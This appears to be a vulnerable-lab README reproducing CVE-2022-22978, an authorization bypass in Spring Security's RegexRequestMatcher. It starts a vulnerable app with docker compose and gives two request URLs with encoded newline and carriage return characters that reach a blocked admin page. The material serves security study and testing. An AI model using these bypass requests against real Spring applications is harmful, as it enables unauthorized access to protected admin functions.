 # Spring Security Authorization Bypass in RegexRequestMatcher (CVE-2022-22978)

[조상연(Korea version)](README.kr.md)

The Spring Security framework is used to provide security authentication functionality in the Spring framework. In Spring Security versions 5.5.6 and 5.6.3 and older unsupported versions, applications using RegexRequestMatcher with `.` in the regular expression are possibly vulnerable to an authorization bypass.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## Vulnerability Environment

Execute the following command to start a Web application based on Spring Security 5.6.3:

```
docker compose up -d
```

After the server starts, browse to <http://your-ip:8080/admin> to see that access to the admin page is blocked.

![](403_Forbidden.PNG)

## Vulnerability Reproduce

Send the following request to access the admin page that bypassed the authentication:

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

![](bypassed.png)
